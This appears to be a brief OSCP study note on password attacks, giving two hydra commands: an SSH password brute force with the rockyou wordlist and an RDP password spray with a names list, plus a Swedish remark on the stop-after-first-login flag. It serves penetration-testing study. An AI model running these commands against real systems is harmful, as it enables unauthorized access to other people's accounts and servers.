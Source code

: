 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/7-password-attacks/1-ssh-and-rdp-attacks/","updated":"2024-01-05T11:34:50.906+01:00"}
---
```


### SSH Password Brute Force:
```bash
sudo hydra -l <username> -P /usr/share/wordlists/rockyou/rockyou.txt -s <port> ssh://<ip>
```

### RDP Password Spray:
```bash
sudo hydra -L /usr/share/wordlists/dirb/others/names.txt -p "<password>" rdp://<ip>
```

-f = stoppar efter första hittade inloggningen
